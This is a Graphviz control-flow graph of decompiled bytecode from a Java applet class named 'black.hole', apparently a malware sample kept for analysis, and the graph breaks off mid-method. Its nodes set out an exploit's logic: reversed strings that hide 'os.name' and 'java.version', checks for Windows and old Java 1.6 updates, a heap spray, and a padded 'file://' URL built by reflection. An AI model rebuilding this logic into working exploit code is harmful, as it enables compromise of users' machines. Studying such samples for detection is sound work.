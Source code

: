 digraph "" {
    "r0 := @this: black.hole"
    "goto new java.lang.StringBuffer"
    "r0 := @this: black.hole"->"goto new java.lang.StringBuffer";
    "new java.lang.StringBuffer"
    "goto new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"at\""
    "dup1.r"->"push \"at\"";
    "push \"ad\""
    "push \"at\""->"push \"ad\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"ad\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r4"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"//:e\""
    "dup1.r"->"push \"//:e\"";
    "push \"lif\""
    "push \"//:e\""->"push \"lif\"";
    "push \"lif\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r8"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"noi\""
    "dup1.r"->"push \"noi\"";
    "push \"sre\""
    "push \"noi\""->"push \"sre\"";
    "push \"sre\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"v.a\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v.a\"";
    "push \"v.a\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"vaj\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"vaj\"";
    "push \"vaj\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"09090909\""
    "dup1.r"->"push \"09090909\"";
    "push \"09090909\""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r16"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r16";
    "store.r r16"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"ema\""
    "dup1.r"->"push \"ema\"";
    "push \"n.so\""
    "push \"ema\""->"push \"n.so\"";
    "push \"n.so\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r20"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r20";
    "store.r r20"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"n\""
    "dup1.r"->"push \"n\"";
    "push \"iw\""
    "push \"n\""->"push \"iw\"";
    "push \"iw\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r24"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r24";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "store.r r24"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r25"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r25";
    "load.r r0"
    "store.r r25"->"load.r r0";
    "load.r r4"
    "load.r r0"->"load.r r4";
    "virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>"
    "load.r r4"->"virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>";
    "store.r r26"
    "virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>"->"store.r r26";
    "push 1"
    "store.r r26"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r r28"
    "newarray"->"store.r r28";
    "load.r r28"
    "store.r r28"->"load.r r28";
    "push 0"
    "load.r r28"->"push 0";
    "push 63"
    "push 0"->"push 63";
    "arraywrite.c"
    "push 63"->"arraywrite.c";
    "arraywrite.c"->"push 0";
    "store.i $r56"
    "push 0"->"store.i $r56";
    "store.i $r56"->"push 0";
    "store.i $r51"
    "push 0"->"store.i $r51";
    "goto load.r r26"
    "store.i $r51"->"goto load.r r26";
    "load.r r26"
    "goto load.r r26"->"load.r r26";
    "load.i $r56"
    "load.r r26"->"load.i $r56";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"load.r r28";
    "load.r r28"->"push 0";
    "arrayread.c"
    "push 0"->"arrayread.c";
    "ifcmpne.c load.i $r51"
    "arrayread.c"->"ifcmpne.c load.i $r51";
    "ifcmpne.c load.i $r51"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r r28";
    "store.r r28"->"load.r r28";
    "load.r r28"->"push 0";
    "load.i $r51"
    "push 0"->"load.i $r51";
    "push 7"
    "load.i $r51"->"push 7";
    "add.i"
    "push 7"->"add.i";
    "push 256"
    "add.i"->"push 256";
    "rem.i"
    "push 256"->"rem.i";
    "rem.i"->"push 1";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "store.r $r51"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"store.r $r51";
    "push \"toH\""
    "store.r $r51"->"push \"toH\"";
    "push \"ex\""
    "push \"toH\""->"push \"ex\"";
    "push \"ex\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Str\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Str\"";
    "push \"Str\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"i\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ng\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ng\"";
    "push \"ng\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r $r56"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r $r56";
    "store.r $r56"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "arraywrite.r"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r26";
    "load.r $r51"
    "load.r r26"->"load.r $r51";
    "load.r $r56"
    "load.r $r51"->"load.r $r56";
    "load.r $r56"->"load.r r28";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"
    "load.r r28"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "checkcast"
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r28";
    "new java.lang.StringBuilder"
    "store.r r28"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"dese\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"dese\"";
    "push \"rialize=\""
    "push \"dese\""->"push \"rialize=\"";
    "push \"rialize=\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r25"
    "push -1"->"ifcmpne.i load.r r25";
    "return"
    "ifcmpne.i load.r r25"->"return";
    "load.r r25"
    "ifcmpne.i load.r r25"->"load.r r25";
    "push \"1.\""
    "load.r r25"->"push \"1.\"";
    "push \"6.\""
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"12\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"12\"";
    "push \"12\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"3\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"4\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"15\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"15\"";
    "push \"15\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"6\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r28"
    "push 0"->"store.b r28";
    "store.b r28"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "push \"i=1\""
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b $r51"
    "push 1"->"store.b $r51";
    "goto load.b r28"
    "store.b $r51"->"goto load.b r28";
    "load.b r28"
    "goto load.b r28"->"load.b r28";
    "load.b $r51"
    "load.b r28"->"load.b $r51";
    "and.b"
    "load.b $r51"->"and.b";
    "ifeq load.r r25"
    "and.b"->"ifeq load.r r25";
    "push 47"
    "ifeq load.r r25"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <black.hole: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <black.hole: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <black.hole: java.lang.String repeat(char,int)>"->"pop";
    "load.r r20"
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "load.r r24"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <black.hole: java.lang.String repeat(char,int)>";
    "staticinvoke <black.hole: java.lang.String repeat(char,int)>"->"store.r r28";
    "goto new java.lang.StringBuilder"
    "store.r r28"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r8"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z%Z%\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z%Z%\"";
    "push \"Z%Z%Z%Z%Z%Z%\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r28";
    "store.r r28"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <black.hole: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r51";
    "push \"\""
    "store.r $r51"->"push \"\"";
    "push \"\""->"store.r $r56";
    "store.r $r56"->"push 0";
    "store.i i53"
    "push 0"->"store.i i53";
    "goto load.i i53"
    "store.i i53"->"goto load.i i53";
    "load.i i53"
    "goto load.i i53"->"load.i i53";
    "load.i i53"->"load.r $r51";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r $r51"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmplt.i new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r $r56"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r $r56";
    "goto load.r $r56"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.String: int length()>";
    "push 8"
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "ifne new java.lang.StringBuilder"
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r $r56";
    "load.r r16"
    "load.r $r56"->"load.r r16";
    "virtualinvoke <black.hole: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r16"->"virtualinvoke <black.hole: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <black.hole: java.nio.IntBuffer[] mem>"
    "virtualinvoke <black.hole: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <black.hole: java.nio.IntBuffer[] mem>";
    "push class \"Ljava/net/URL;\""
    "fieldput <black.hole: java.nio.IntBuffer[] mem>"->"push class \"Ljava/net/URL;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"Ljava/net/URL;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r28";
    "load.r r28"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>"
